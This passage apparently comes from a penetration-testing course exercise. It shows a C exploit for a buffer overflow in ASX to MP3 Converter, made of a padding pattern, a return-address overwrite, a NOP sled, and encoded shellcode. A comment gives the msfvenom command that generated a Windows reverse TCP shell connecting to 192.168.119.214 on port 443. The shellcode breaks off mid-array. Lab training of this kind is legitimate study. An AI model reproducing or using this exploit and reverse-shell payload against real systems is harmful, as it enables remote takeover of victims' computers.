 Add the payload to the exploit.
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 7_add_shellcode_yes_nops.c
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /*  msf-pattern_create -l 250 
        filler = 241 
        eip = 4,"\x9d\x78\x03\x10" 0x1003789d 
        pad = 4 
        placeholder = 376 */
    /* msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x25" */
    char pattern[] =    "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x9d\x78\x03\x10\x43\x43\x43\x43\x90"
                        "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xdb"
                        "\xd1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x52\xb8\xc6\x01\xb8\xb1\x31\x42\x17\x83\xc2\x04\x03\x84\x12\x5a"
                        "\x44\xf4\xfd\x18\xa7\x04\xfe\x7c\x21\xe1\xcf\xbc\x55\x62\x7f\x0d\x1d\x26\x8c\xe6\x73\xd2\x07\x8a\x5b"
                        "\xd5\xa0\x21\xba\xd8\x31\x19\xfe\x7b\xb2\x60\xd3\x5b\x8b\xaa\x26\x9a\xcc\xd7\xcb\xce\x85\x9c\x7e\xfe"
                        "\xa2\xe9\x42\x75\xf8\xfc\xc2\x6a\x49\xfe\xe3\x3d\xc1\x59\x24\xbc\x06\xd2\x6d\xa6\x4b\xdf\x24\x5d\xbf"
                        "\xab\xb6\xb7\xf1\x54\x14\xf6\x3d\xa7\x64\x3f\xf9\x58\x13\x49\xf9\xe5\x24\x8e\x83\x31\xa0\x14\x23\xb1"
                        "\x12\xf0\xd5\x16\xc4\x73\xd9\xd3\x82\xdb\xfe\xe2\x47\x50\xfa\x6f\x66\xb6\x8a\x34\x4d\x12\xd6\xef\xec"
                        "\x03\xb2\x5e\x10\x53\x1d\x3e\xb4\x18\xb0\x2b\xc5\x43\xdd\x98\xe4\x7b\x1d\xb7\x7f\x08\x2f\x18\xd4\x86"
                        "\x03\xd1\xf2\x51\x63\xc8\x43\xcd\x9a\xf3\xb3\xc4\x58\xa7\xe3\x7e\x48\xc8\x6f\x7e\x75\x1d\x3f\x2e\xd9"
                        "\xce\x80\x9e\x99\xbe\x68\xf4\x15\xe0\x89\xf7\xff\x89\x20\x02\x68\x76\x1c\x7b\xbe\x1e\x5f\x83\x3f\x64"
```